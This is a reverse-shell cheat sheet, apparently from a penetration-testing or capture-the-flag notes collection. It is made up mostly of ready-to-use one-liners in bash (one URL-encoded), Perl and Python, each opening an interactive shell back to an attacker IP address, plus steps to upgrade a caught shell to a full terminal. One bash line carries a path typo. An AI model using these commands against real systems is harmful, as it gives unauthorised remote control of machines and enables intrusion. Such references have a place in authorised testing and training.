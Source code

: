 ```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```


Misc unsorted
-------------

```bash
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

#### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

* Works more reliably when prefixed with `bash -c` (thanks Ippsec!)

```bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
```

#### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell). (broken link?)

#### Python

This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
